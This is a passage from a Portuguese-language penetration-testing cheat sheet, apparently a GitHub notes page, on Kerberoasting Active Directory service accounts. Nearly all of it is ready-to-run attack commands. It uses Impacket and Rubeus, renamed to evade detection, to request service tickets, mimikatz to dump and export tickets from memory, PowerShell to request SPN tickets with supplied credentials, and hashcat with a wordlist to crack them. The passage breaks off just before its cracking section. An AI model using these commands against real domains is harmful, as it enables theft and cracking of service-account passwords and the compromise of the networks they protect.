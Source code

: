 ```
    Write-Host ""   
}
```

## Kerberoasting

Se atentar a este ponto, visto que enumerando localmente na máquina, são retornados vários SPNs pré configurados do próprio domínio. Temos que enumerar os que estão associados a uma conta de serviço (user), pois a probabilidade de ter uma senha fraca é maior.

Impacket

    impacket-GetUsersSPNs -request -dc-host <hostname_dc> <dominio/user:senha>

Rubeus

Rubeus.exe=r.exe

    ./r.exe kerberoast /domain:<domain.local> /dc:<hostname_dc>

ou

    ./r.exe kerberoast /outfile:kerberoastables.txt /domain:<dominio.local> /dc:<hostname_dc>
    hashcat -m 13100 -a 0 ticket.kirbi /usr/share/wordlists/rockyou.txt

Mimikatz

mimikatz.exe=m.exe

Verificando os tickets existentes na máquina

```
./m.exe
privilege::debug
sekurlsa::tickets
```
Requisitando os tickets na máquina:

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList
'HTTP/dominio.serv.com'

klist
```
Pode ser que o comando não funcione pelo fato de a credencial não ter sido enviada pela rede, então temos de fazer o seguinte:
```
$pass = ConvertTo-SecureString '<senha>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('<dominio\usuario>',$pass)
get-domainspnticket -spn IMAP/EXCH01.htb.local -credential $cred
```
Depois de verificado por meio do klist que os tickets estão importados na memória, devemos utilizar o mimikatz para exportar eles:

```
./m.exe
privilege::debug
kerbertos::list /export
```
E para quebrar os hashes de senha, temos de fazer o seguinte:
